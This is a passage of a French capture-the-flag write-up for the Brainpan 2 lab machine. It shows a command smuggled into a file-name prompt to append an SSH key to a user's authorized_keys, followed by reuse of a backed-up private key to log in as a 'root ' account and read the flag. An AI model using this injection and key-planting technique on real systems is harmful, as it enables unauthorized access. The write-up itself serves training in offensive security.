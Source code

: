 Solution : on envoie nos clés publiques / privées sur le serveur puis on exploite VIEW pour ajouter la clé publique dans les clés autorisées de *puck* :

```plain
                          >> VIEW
    ENTER FILE TO DOWNLOAD: /dev/null;cat /tmp/id_rsa.pub >> /home/puck/.ssh/authorized_keys
```

On se connecte au serveur SSH local (notez que l'adresse sur laquelle écoute le serveur SSH est une autre blague) :  

```plain
root # ssh puck@127.0.1.1 -p 2222 -i /tmp/id_rsa 
Enter passphrase for key '/tmp/id_rsa': 
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

puck@brainpan2:~$ id
uid=1001(puck) gid=1001(puck) groups=1001(puck),50(staff)
```

That's all folks !
------------------

C'est bien on a maintenant les droits de *puck*... So what ? Il a un dossier caché *.backup* :  

```plain
./.backup:
total 28
drwxr-xr-x 3 puck puck 4096 Nov  5 09:44 .
drwx------ 4 puck puck 4096 Nov  5 09:45 ..
-rw------- 1 puck puck  395 Nov  5 09:43 .bash_history
-rw-r--r-- 1 puck puck  220 Nov  4 14:18 .bash_logout
-rw-r--r-- 1 puck puck 3392 Nov  4 14:18 .bashrc
-rw-r--r-- 1 puck puck  675 Nov  4 14:18 .profile
drwx------ 2 puck puck 4096 Nov  4 14:15 .ssh

./.backup/.ssh:
total 16
drwx------ 2 puck puck 4096 Nov  4 14:15 .
drwxr-xr-x 3 puck puck 4096 Nov  5 09:44 ..
-rw------- 1 puck puck 1675 Nov  4 14:15 id_rsa
-rw-r--r-- 1 puck puck  396 Nov  4 14:15 id_rsa.pub
```

Et dans l'historique sauvegardé :

```plain
ssh -l "root " brainpan2
(...)
mkdir .backup
mv .ssh .bash* .backup
```

Utilisons donc cette fameuse clé de backup :  

```plain
puck@brainpan2:~$ ssh -l "root " 127.0.1.1 -p 2222 -i .backup/.ssh/id_rsa
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

root @brainpan2:~# id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# cat  /root/flag.txt 

                          !!! CONGRATULATIONS !!!

                 You've completed the Brainpan 2 challenge! 
                 Or have you...? 

                 Yes, you have! Pat yourself on the back. :-)

```